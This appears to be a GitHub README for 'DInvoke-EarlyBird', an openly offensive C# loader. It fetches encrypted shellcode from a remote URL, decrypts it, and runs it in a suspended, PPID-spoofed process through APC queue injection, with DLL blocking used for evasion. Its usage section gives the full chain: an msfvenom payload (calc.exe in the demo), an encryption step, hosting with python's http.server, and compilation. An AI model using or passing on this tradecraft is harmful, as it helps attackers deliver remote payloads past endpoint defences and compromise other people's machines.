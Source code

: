 # DInvoke-EarlyBird
Early Bird process injection and PPID spoofing technique using DInvoke.

- Fetch shellcode from URL.
- Extract the key from the encrypted shellcode and decrypt it.
- Spawn a target process in suspended state.
  - Using PPID spoofing.
  - Using block dll flag: DLL which has not been signed by Microsoft and attempt to be loaded into the process, will fail.
- Execute shellcode via APC Queue.

# Usage
1. Create and encrypt your shellcode:
```bash
> msfvenom -p windows/x64/exec CMD=calc.exe -f raw > calc.bin
> python3 encrypt calc.bin
[+] Saved encrypted file as encrypted.bin (Size: 304 bytes)
```
2. Host the encrypted payload:
```bash
> python3 -m http.server 80 
```
3. Adjust the line 35 of `Program.cs` to reflect your environment.
4. Compile and run:
```bash
PS> csc /unsafe Program.cs
```

# To-Do
- Implement a process integrity check for PPID spoofing:  
Currently the PPID spoofing is retrieving a handle to the process specified without checking its integrity. If you are a low-privilege user and try to get a handle to a high privilege process, the program may crash due to access violation.

# References
- https://github.com/TheWover/DInvoke
- https://github.com/rasta-mouse/DInvoke
- https://offensivedefence.co.uk/posts/ppidspoof-blockdlls-dinvoke/
